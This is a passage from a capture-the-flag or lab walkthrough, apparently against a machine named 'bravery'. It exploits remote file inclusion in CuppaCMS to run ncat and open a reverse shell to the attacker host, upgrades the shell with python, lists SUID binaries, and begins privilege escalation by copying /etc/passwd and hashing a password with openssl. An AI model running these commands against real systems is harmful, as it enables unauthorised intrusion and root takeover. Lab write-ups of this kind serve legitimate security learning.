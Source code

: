 Then we execute with curl the following request that will establish a connection with the attacking machine and execute the linux bash.

```console
root@kali:~$ curl -s "http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=ncat%20192.168.179.1%20443%20-e%20/bin/bash%20--ssl"
```

We got a shell with limited permissions and I used python to spawn a TTY shell, as shown below.

```console
root@kali:~$ nc -vlnp 443 --ssl
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B8AD 2215 76EA E761 6B75 9B68 FB2A 48B2 7067 4C38
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.179.129.
Ncat: Connection from 192.168.179.129:39134.
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ uname -a
Linux bravery 3.10.0-862.3.2.el7.x86_64 #1 SMP Mon May 21 23:36:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation
### SUID Privileges

Listing SUID permissions, I found the **cat** command which is potentially dangerous, wich we will take advantage of to escalate privileges.

```console
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/chage
...
```

Located in the directory **temp** redirect the content of **/etc/passwd** to a file in the current directory.

```console
bash-4.2$ cd /tmp
bash-4.2$ cat /etc/passwd > passwd
```

On the attacking machine we generate a password hash with **openssl**, as shown below:

```console
root@kali:~$ openssl passwd -1 br4vR00t
$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.
```
